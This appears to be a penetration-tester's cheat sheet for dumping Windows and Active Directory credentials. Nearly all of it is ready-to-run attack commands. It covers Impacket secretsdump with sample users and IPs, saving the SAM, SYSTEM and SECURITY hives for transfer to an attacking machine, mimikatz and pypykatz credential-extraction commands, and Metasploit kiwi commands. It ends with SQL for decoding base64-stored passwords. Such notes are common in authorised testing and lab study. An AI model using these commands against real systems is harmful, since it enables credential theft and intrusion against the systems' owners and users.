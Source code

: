 # Dump Hashes

## Impacket-Secretsdump

```
python3 secretsdump.py <domain.name>/<user>:<password>@<ip> 
python3 secretsdump.py <domain.name>/<user>@ip -hashes <ntlm:ntlm>

impacket-secretsdump backup@spookysec.local # requires password for user
impacket-secretsdump Administrator@10.11.1.1 -hashes 'NTLM:NTLM'
impacket-secretsdump marvel/fcastle:Password1@192.168.183.137
```

## SAM / SYSTEM / SECURITY Hives

We can use the following hives as well to dump the hashes locally. This only requires the transfer of the SYSTEM, SAM, and SECURITY files onto our local machine. We could use whatever file transfer method is the most available to us.

```
reg.exe save hklm\system c:\Users\Administrator\system
reg.exe save hklm\security c:\Users\Administrator\security
reg.exe save hklm\sam c:\Users\Administrator\sam

Transfer them to our attacking machine.

secretsdump.py  -sam sam -system system -security security LOCAL
```

## mimikatz/pypykatz

{% embed url="https://adsecurity.org/?page_id=1821" %}

Need to match architecture

```bash
privilege::debug
20 ‘OK’

sekurlsa::logonPasswords
lsadump::sam
lsadump::sam /patch
lsadump::lsa /patch
lsadump::secrets
kerberos::list

mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam /patch" "lsadump::lsa /patch" "lsadump::secrets" "exit"

pypykatz lsa minidump filename.DMP
```

## Metasploit

```
load kiwi

creds_all
lsa_dump_lsa
lsa_dump_secrets
kerberos_list
```

## Base64 decode MySQL password

```
#inside mysql 
SELECT username, CONVERT(FROM_BASE64(password), CHAR) FROM users;
SELECT username, CONVERT(FROM_BASE64(FROM_BASE64(password)), CHAR) FROM users; # 2x encoded

echo 'SOMETHING123==' | base64 -d
```
